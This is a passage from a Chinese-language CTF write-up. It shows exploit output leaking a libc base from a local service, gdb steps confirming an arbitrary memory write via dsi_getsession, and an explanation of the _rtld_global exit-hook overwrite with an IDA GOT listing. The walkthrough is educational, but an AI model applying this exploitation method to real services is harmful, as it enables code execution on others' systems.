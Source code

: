 ```python
[*] Closed connection to 127.0.0.1 port 5566
[+] Opening connection to 127.0.0.1 on port 5566: Done
[+] 0x0
[*] Closed connection to 127.0.0.1 port 5566
[+] 0x7f863b8f6000
```

开gdb：

```python
➜  sudo gdb --pid 123345 -q

gef➤  set follow-fork-mode child
gef➤  c
```

然后exp窗口中回车继续执行，gdb进入子进程，由于合法地址，不会崩，故ctrl+c暂停进程，然后查看内存，的确写成了：

```python
gef➤  x /2s 0x7f863b8f6000
0x7f863b8f6000:	"xuanxuan"
0x7f863b8f6009:	""
```

但此任意内存写只有一次，因为dsi_getsession在一次tcp连接中只有一次，不过好在这个任意地址写的内容长度可以很大。

#### _rtld_global

按照官方wp的解法，当有了libc的基址后，是可以写_rtld_global的，打法如下：

> 要彻底理解_rtld_global的实现还是比较困难的，因为其代码在libc和ld相关的底层函数中，并且写法太trick了...

- [_rtld_global overwrite](https://github.com/andrewbae/gitbook/blob/main/exploitation-techniques/_rtld_global-overwrite.md)
- [exit()分析与利用](https://www.anquanke.com/post/id/24319)
- [exit_hook在pwn题中的应用](https://www.cnblogs.com/bhxdn/p/14222558.html)

主要原理就是程序在exit时会调用一个函数指针，这个函数指针以及参数都在_rtld_global这个结构体里，我之前一直以为这个东西，在libc里，这次才发现他在ld.so的数据段里，而这个符号存在于libc的got表中...

```c
.got:00000000003EADE8 _rtld_global_ptr dq offset _rtld_global ; DATA XREF: __libc_start_main+15F↑r
```

还有其他外部符号：

```c
extern:00000000003F0B78 ; Segment type: Externs
extern:00000000003F0B78 ; extern
extern:00000000003F0B78                 extrn _rtld_global      ; DATA XREF: .got:_rtld_global_ptr↑o
extern:00000000003F0B80                 extrn __libc_enable_secure
extern:00000000003F0B80                                         ; DATA XREF: .got:__libc_enable_secure_ptr↑o
extern:00000000003F0B88                 extrn __tls_get_addr:near
extern:00000000003F0B88                                         ; CODE XREF: ___tls_get_addr↑j
extern:00000000003F0B88                                         ; DATA XREF: .got.plt:off_3EB058↑o
extern:00000000003F0B90                 extrn _dl_exception_create:near
extern:00000000003F0B90                                         ; CODE XREF: __dl_exception_create↑j
extern:00000000003F0B90                                         ; DATA XREF: .got.plt:off_3EB080↑o
extern:00000000003F0B98                 extrn _rtld_global_ro   ; DATA XREF: .got:_rtld_global_ro_ptr↑o
extern:00000000003F0BA0                 extrn __tunable_get_val:near
extern:00000000003F0BA0                                         ; CODE XREF: ___tunable_get_val↑j
extern:00000000003F0BA0                                         ; DATA XREF: .got.plt:off_3EB0A0↑o
extern:00000000003F0BA8                 extrn _dl_find_dso_for_object:near
extern:00000000003F0BA8                                         ; CODE XREF: __dl_find_dso_for_object↑j
extern:00000000003F0BA8                                         ; DATA XREF: .got.plt:off_3EB0F8↑o
```
